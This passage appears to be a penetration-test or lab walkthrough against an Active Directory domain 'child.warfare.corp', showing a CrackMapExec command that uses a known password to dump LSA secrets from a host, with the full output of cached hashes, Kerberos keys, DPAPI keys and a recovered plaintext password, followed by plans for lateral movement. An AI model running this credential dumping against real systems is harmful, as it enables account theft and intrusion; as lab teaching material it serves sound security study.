 <p class="indent-paragraph">
After confirming valid domain credentials for user <code>john</code> with the password <code>User1@#$%6</code> and successfully obtaining a <code>Pwn3d!</code> status on host <code>192.168.98.30</code><span class="codefix">,</span> a deeper enumeration was initiated using the --lsa flag via CrackMapExec to extract stored secrets.
</p>

```
~$ proxychains -q crackmapexec smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa

SMB 192.168.98.30 445 MGMT [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp)
(signing:False) (SMBv1:False)
SMB 192.168.98.30 445 MGMT [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)
SMB 192.168.98.30 445 MGMT [+] Dumping LSA secrets
SMB 192.168.98.30 445 MGMT CHILD.WARFARE.CORP/john:$DCC2$10240#john#9855312d42ee254a7334845613120e61:
(2025-01-17 14:47:56)
SMB 192.168.98.30 445 MGMT
CHILD.WARFARE.CORP/corpmngr:$DCC2$10240#corpmngr#7fd50bbab99e8ea7ae9c1899f6dea7c6: (2025-01-21 11:35:46)
SMB 192.168.98.30 445 MGMT CHILD\MGMT$:aes256-cts-hmac-sha1-
96:344c70047ade222c4ab35694d4e3e36de556692f02ec32fa54d3160f36246eec
SMB 192.168.98.30 445 MGMT CHILD\MGMT$:aes128-cts-hmac-sha1-96:aa5b3d84614911fe611eafbda613baaf
SMB 192.168.98.30 445 MGMT CHILD\MGMT$:des-cbc-md5:6402e0c20b89d386
SMB 192.168.98.30 445 MGMT
CHILD\MGMT$:plain_password_hex:4f005d003b006f0074005d003500760067002f0032007a0046004e0020004d0070002300360057003100500
0770041002600700055003d005a0047006100370033003e003b0032004600410059002a006b0046004400410069003e00530066006a0033006e00
61007a004e0060003300590063005e0048006c005c0053003e003e0033003c007300500043007a002500300031004b00610060002000540033007
a003f004200580048002f0068006d0052006f0027005b00520061003b003a0075002b0050004a005d006b003c006d004c00730045005d005b00740
06c004b00760045005c00280059003a0066002000
SMB 192.168.98.30 445 MGMT
CHILD\MGMT$:aad3b435b51404eeaad3b435b51404ee:0f5fe480dd7eaf1d59a401a4f268b563:::
SMB 192.168.98.30 445 MGMT dpapi_machinekey:0x34e3cc87e11d51028ffb38c60b0afe35d197627d
dpapi_userkey:0xb890e07ba0d31e31c758d305c2a29e1b4ea813a5
SMB 192.168.98.30 445 MGMT
NL$KM:df885acfa168074cc84de093af76093e726cd092e9ef9c72d6fe59c6cbb70382d896c9569b67dcdac871dd77b96916c8c1187d40c118474c48
1ddf62a7c04682
SMB 192.168.98.30 445 MGMT corpmngr@child.warfare.corp:User4&*&*
```

<p class="indent-paragraph">
  These credentials represent high-value access material for further post-exploitation activities such as persistence or lateral movement within the <code>child.warfare.corp</code> domain. Following a successful LSA secrets dump on <code>192.168.98.30</code> (MGMT), a new account credential was recovered from memory—<code>corpmngr@child.warfare.corp:User4&*&*</code><span class="codefix">.</span> The presence of this domain user and its NTLM hashes in memory suggests another account with elevated privileges. To validate this finding, CrackMapExec was re-run against all known targets using the newly discovered credential.
</p>
